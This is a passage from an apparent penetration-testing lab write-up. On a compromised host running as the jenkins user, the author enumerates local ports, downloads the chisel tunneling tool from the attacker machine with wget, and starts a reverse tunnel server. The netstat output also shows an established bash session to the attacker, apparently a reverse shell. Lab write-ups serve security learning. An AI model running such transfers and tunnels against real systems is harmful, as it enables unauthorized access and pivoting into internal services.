 Doing some manual enumeration we discover port `8080` which wasn't showed as up in the initial Nmap scan:

```bash
jenkins@dev1:~$ netstat -antup
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0    286 10.150.150.38:58264     10.66.69.69:6969       ESTABLISHED 636/bash            
tcp6       0      0 :::30609                :::*                    LISTEN      467/java            
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       1      0 10.150.150.38:30609     10.66.69.69:48350      CLOSE_WAIT  467/java
```

# [](header-1)Port forwarding.

We transfer [chisel](https://github.com/jpillora/chisel/releases) tool to the victim machine to do the port forwarding.

```bash
jenkins@dev1:/tmp$ wget http://10.66.66.69:6971/chisel
--2020-07-29 11:04:48--  http://10.66.69.69:6971/chisel
Connecting to 10.66.69.69:6971... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3295912 (3.1M) [application/octet-stream]
Saving to: ‘chisel’

chisel                                     100%[========================================================================================>]   3.14M   230KB/s    in 14s     

2020-07-29 11:05:02 (233 KB/s) - ‘chisel’ saved [3295912/3295912]

jenkins@dev1:/tmp$
```

Setting up the chisel server on the attacking machine:

```bash
└─$ ./chisel server -port 7171 --reverse                                                                                                                              127 ⨯
2021/09/08 21:49:35 server: Reverse tunnelling enabled
2021/09/08 21:49:35 server: Fingerprint DHQvfo/V5XH2fPvjE630ikAnWDP3/GApoK5fkC/8ryk=
2021/09/08 21:49:35 server: Listening on http://0.0.0.0:7171
```

And then we fire it up as client mode on the victim machine:

